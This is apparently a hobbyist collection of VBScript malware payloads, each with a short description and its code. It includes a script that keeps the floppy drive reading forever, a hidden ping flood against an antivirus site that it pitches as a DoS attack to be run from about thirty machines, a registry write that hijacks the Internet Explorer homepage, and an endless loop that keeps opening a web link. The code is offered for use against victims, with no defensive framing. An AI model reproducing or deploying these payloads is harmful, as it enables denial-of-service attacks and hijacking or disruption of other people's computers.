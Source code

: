 --------Loop floppy disk read--------

Description: This payloads has to be one of the most annoying
non-damaging payloads that I can think of. It simply makes the
floppy disk drive read at an infinate loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set fso = CreateObject("Scripting.FileSystemObject")
Set DriveA = fso.GetDrive("A:")
Do
If DriveA.IsReady Then DiskReady = True
Loop

-------------------------------------



--------DoS (Denial of Service) attack--------

Description: This code basically Pingfloods a specific webpage,
Link, FTP or whatever. However, just one computer doing a Pingflood
will not cause much damage, but if at least 30 computers were doing it,
it would.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.Run "Ping.exe -t -l 916 www.av.com", 0, False

-------------------------------------



--------Change IE (Internet Explorer) homepage--------

Description: This just changes the homepage of IE using the registry.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.wescam.u"

-------------------------------------
--------File/Link execution loop--------

Decription: This code basically executes a File or web link on
a loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
Do
wsc.Run "http://www.wescam.wtf/", 3, False
Loop

-------------------------------------


